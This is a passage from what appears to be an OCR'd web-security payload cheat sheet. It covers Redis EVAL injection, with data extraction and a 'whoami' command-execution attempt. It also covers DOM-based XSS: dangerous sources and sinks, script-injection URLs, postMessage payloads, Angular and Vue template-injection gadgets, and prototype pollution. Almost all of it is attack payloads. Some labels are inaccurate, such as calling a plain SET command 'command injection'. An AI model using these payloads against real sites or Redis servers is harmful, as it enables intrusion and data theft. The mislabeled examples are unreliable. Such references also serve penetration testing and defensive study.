 **Redis Injection:**
```bash
# Command injection through EVAL
EVAL "return redis.call('SET', KEYS[1], ARGV[1])" 1 "key" "value"

# Data extraction
EVAL "return redis.call('GET', 'sensitive_key')" 0

# System command execution (if enabled)
EVAL "return os.execute('whoami')" 0
```

### 🔧 Advanced XSS Exploitation

#### **DOM-Based XSS Advanced Techniques**

**Source and Sink Analysis:**
```javascript
// Dangerous sources
location.href
location.search
location.hash
document.referrer
window.name
postMessage events

// Dangerous sinks
eval()
setTimeout()
setInterval()
Function()
document.write()
element.innerHTML
element.outerHTML
```

**Advanced DOM XSS Payloads:**
```javascript
// Hash-based DOM XSS
http://vulnerable-site.com/page.html#<script>alert('XSS')</script>

// PostMessage DOM XSS
window.postMessage('<script>alert("XSS")</script>', '*');

// Angular.js template injection
{{constructor.constructor('alert(1)')()}}
{{$new.constructor.constructor('alert(1)')()}}

// Vue.js template injection
{{constructor.constructor('alert(1)')()}}

// Prototype pollution to DOM XSS
Object.prototype.innerHTML = '<script>alert("XSS")</script>';
```
